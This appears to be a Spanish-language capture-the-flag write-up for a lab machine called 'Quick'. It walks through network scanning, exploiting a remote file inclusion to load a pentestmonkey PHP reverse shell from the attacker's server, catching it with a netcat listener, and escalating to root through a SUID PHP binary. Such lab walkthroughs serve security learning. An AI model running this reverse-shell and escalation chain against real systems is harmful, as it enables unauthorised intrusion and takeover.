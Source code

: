 ## MAQUINA QUICK

Usamos la herramienta "netdiscover" para ver las maquinas conectadas en nuestra red

```console

>netdicover -i eth0 -r 192.x.x.x/24

```

Una vez que tengamos la ip, con nmap vamos a enumerar los puertos y servicios abiertos de la misma.

```console

>nmap -p- -open -sV -sC "ip" -oN TARGET

PORT
80/tcp open http

"STATE SERVICE VERSION
Apache httpd 2.4.41 ((Ubuntu))
l_http-server-header: Apache/2.4.41 (Ubuntu)
l_http-title: Quick Automative
MAC Address: 08:00:27:41:D3:56 (Oracle VirtualBox virtual NIC)"
```

Como tenemos el puerto 80 disponible ingresamos a la pagina web.

Usamos nikto para ver si hay alguna vulnerabilidad en la web.

```console

>nikto -h "ip"

/index.php?page=http://blog.cirt.net/rfiinc.txt ?: Remote File Inclusion (RFI)
```

Tenemos una posible vuln. en la web, se trata de un RFI (remote-file-inclusion).

Aca lo que vamos a hacer es subir una RV (revershell.php) de pentestmokey a la maquina victima creando un servidor python.

```console
python3 -m http.server
```

Seguido nos ponemos en escucha con netcat al puerto que colocamos en la RV.
```console
nc -nlvp 1234
```

Ahora realizamos lo siguiente: 

Vamos a la URL de la pagina y colocamos nuestra ip + la revershell pentest monkey (http://$IP/revershell)(sin la extension).

Bien si todo salio excelente somos el usuario www-data, ahora realizamos el tratamiento de la tty:

```console
$ script /dev/null -c bash
Script started, file is /dev/null

www-data@host:/$ ^Z
zsh: suspended  nc -nlvp 443

~$> stty raw -echo; fg

[1]  + continued  nc -nlvp 443
                              reset
reset: unknown terminal type unknown
Terminal type? xterm

www-data@host:/$ export TERM=xterm
www-data@host:/$ export SHELL=bash
```

Luego vemos que permisos SUID tenemos con el siguiente formato.

```console
find / -user root -perm /4000 2>/dev/null
```
Y como resultado tenemos un archivo:

```console
/usr/bin/php7.0
```

En gtfobins encontramos la manera de escalar priv.
```console
sudo install -m =xs $(which php) .

CMD="/bin/sh"
./php -r "pcntl exec('/bin/sh', ['-p']);"

```

Y listo somo User root
